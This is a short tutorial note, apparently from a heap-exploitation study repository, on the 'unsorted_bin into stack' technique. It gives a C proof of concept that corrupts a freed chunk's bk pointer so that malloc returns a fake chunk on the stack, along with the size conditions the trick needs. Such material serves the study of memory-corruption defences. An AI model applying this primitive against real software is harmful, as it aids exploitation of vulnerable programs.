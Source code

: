 # Unsorted_bin into stack
> LongChampion, 19/03/2020

In this attack, we modify the `bk` pointer of a chunk in unsorted_bin to make `malloc` return a fake chunk.
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    struct Chunk Fake, NextFake;

    void *victim = malloc(0x100 - 8);
    void *pivot = malloc(0x100 - 8);

    free(victim);
    struct Chunk *header = (struct Chunk *) (victim - 0x10);
    header->bk = &Fake;
    Fake.size = 0x200;
    Fake.bk = &NextFake;

    void *STACK = malloc(0x200 - 8);
}
```
First, we allocate two chunks and free the first chunk to push it into unsorted_bin. Then we set the `bk` pointer of `victim` point to our fake chunk. After that, we set the size of the fake chunk (it must differ from size of `victim` chunk) and set `Fake.bk` point to somewhere. Finally, call `malloc` with EXACT resquest size to get the fake chunk.

## Note
- The `pivot` chunk is used to prevent `free` consolidate `victim` with top_chunk.
- You can change size of `victim` chunk and size of fake chunk to any value. But the following condition must be satify:
    - Size of fake chunk is differ from size of size of `victim` chunk.
    - Size of fake chunk fall into fastbin range or smallbin range (can't be largebin range)
- Request size of last `malloc` call must be **calcutaled** to make `malloc` return a fake chunk (read `calc_tcache_idx.md` if you don't know how to calculate this value)
- 8 bytes at address `Fake.bk + 0x10` will be overwrite, so make sure that you set `Fake.bk` to somewhere suitable (Don't try to overwrite the canary please)
- As we expect, `STACK` point to `Fake.fd`, not `Fake`.

